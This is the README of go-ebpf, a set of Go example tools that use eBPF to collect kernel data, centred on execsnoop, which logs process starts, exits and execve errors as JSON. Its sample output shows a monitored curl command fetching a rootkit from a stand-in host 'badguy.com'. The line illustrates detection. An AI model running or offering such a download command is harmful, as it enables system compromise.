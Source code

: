 # go-ebpf

[![Build Status](http://img.shields.io/travis/andrewkroh/go-ebpf.svg?style=flat-square)][travis]
[![Go Documentation](http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)][godocs]

[travis]: http://travis-ci.org/andrewkroh/go-ebpf
[godocs]: http://godoc.org/github.com/andrewkroh/go-ebpf

go-ebpf is a collection of example tools that use [eBPF][ebpf] to collect
metrics and data from the Linux kernel _without using [bcc][bcc]_. The eBPF
programs are written in restricted C and then compiled into eBPF bytecode
using `clang` and LLVM (`llc`). The bytecode is shipped with the Go program
to avoid having a runtime dependency on `clang` and `llc` (normally you don't
want to have compilers on your production systems).

If the kernel's JIT compiler is enabled the eBPF bytecode will be translated
into native machine code for better performance. The JIT compiler is currently
available for the x86-64, arm64, and s390 architectures. It can be enabled by

`echo 1 > /proc/sys/net/core/bpf_jit_enable`

[ebpf]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[bcc]:  https://github.com/iovisor/bcc

## Installation and Usage

Package documentation can be found on [GoDoc][godocs].

Installation can be done with a normal `go get` or you can download a binary
from the [releases][releases] page.

[releases]: https://github.com/andrewkroh/go-ebpf/releases

```
$ go install github.com/andrewkroh/go-ebpf/cmd/execsnoop
```

In order to run the `execsnoop` example the `CAP_SYS_ADMIN` capability is
required. Therefore the program should be run as root.

```
sudo $GOPATH/bin/execsnoop
```

Then in a second terminal if you run a program you will see info about all
the processes. The program outputs JSON events. There are three
different event types -- `started`, `exited`, and `error`.

- `started` - This event is generated at startup for all existing processes by
reading from `/proc` and it is generated anytime there is a successful `execve`
syscall.
- `exited` - This event is generated when a program exits. It contains the same
data as the `started` event along with the end time and elapsed running time.
- `error` - This event is generated when an `execve` syscall results in an
error. For example if `execve` fails because the user does not have permissions
to execute the binary then an error event will be generated with the
`error_code` value.

```json
$ sudo $GOPATH/bin/execsnoop | jq .
{
  "type": "started",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ]
}
{
  "type": "exited",
  "start_time": "2017-11-03T15:16:56.890551865Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22022,
  "uid": 1000,
  "gid": 1000,
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ],
  "end_time": "2017-11-03T15:16:56.908970285Z",
  "running_time_ns": 18418420
}
{
  "type": "error",
  "start_time": "2017-11-03T15:17:18.103922381Z",
  "ppid": 15785,
  "parent_comm": "bash",
  "pid": 22024,
  "uid": 1000,
  "gid": 1000,
  "exe": "/sbin/unix_update",
  "args": [
    "/sbin/unix_update"
  ],
  "error_code": -13
}
```
